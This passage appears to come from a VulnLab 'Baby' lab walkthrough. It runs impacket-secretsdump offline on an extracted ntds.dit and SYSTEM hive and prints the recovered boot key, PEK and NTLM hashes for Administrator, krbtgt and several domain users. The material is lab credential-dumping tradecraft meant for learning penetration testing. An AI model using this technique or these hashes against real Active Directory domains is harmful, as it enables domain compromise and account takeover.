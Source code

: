 ```bash
impacket-secretsdump -system system -ntds ntds.dit LOCAL
```

![image.png](/assets/Images/VL_Baby/image%2011.png)

```bash
┌──(root㉿pain)-[/vulnlab/baby]
└─# impacket-secretsdump -system system -ntds ntds.dit LOCAL
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x191d5d3fd5b0b51888453de8541d7e88
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 41d56bf9b458d01951f592ee4ba00ea6
[*] Reading and decrypting hashes from ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:ee4457ae59f1e3fbd764e33d9cef123d:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
BABYDC$:1000:aad3b435b51404eeaad3b435b51404ee:ad22d5a44432de914bec0ca119d8e14f:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:6da4842e8c24b99ad21a92d620893884:::
baby.vl\Jacqueline.Barnett:1104:aad3b435b51404eeaad3b435b51404ee:20b8853f7aa61297bfbc5ed2ab34aed8:::
baby.vl\Ashley.Webb:1105:aad3b435b51404eeaad3b435b51404ee:02e8841e1a2c6c0fa1f0becac4161f89:::
baby.vl\Hugh.George:1106:aad3b435b51404eeaad3b435b51404ee:f0082574cc663783afdbc8f35b6da3a1:::
baby.vl\Leonard.Dyer:1107:aad3b435b51404eeaad3b435b51404ee:b3b2f9c6640566d13bf25ac448f560d2:::
baby.vl\Ian.Walker:1108:aad3b435b51404eeaad3b435b51404ee:0e440fd30bebc2c524eaaed6b17bcd5c:::
baby.vl\Connor.Wilkinson:1110:aad3b435b51404eeaad3b435b51404ee:e125345993f6258861fb184f1a8522c9:::
baby.vl\Joseph.Hughes:1112:aad3b435b51404eeaad3b435b51404ee:31f12d52063773769e2ea5723e78f17f:::
baby.vl\Kerry.Wilson:1113:aad3b435b51404eeaad3b435b51404ee:181154d0dbea8cc061731803e601d1e4:::
baby.vl\Teresa.Bell:1114:aad3b435b51404eeaad3b435b51404ee:7735283d187b758f45c0565e22dc20d8:::
baby.vl\Caroline.Robinson:1115:aad3b435b51404eeaad3b435b51404ee:5fa67a134024d41bb4ff8bfd7da5e2b5:::

```
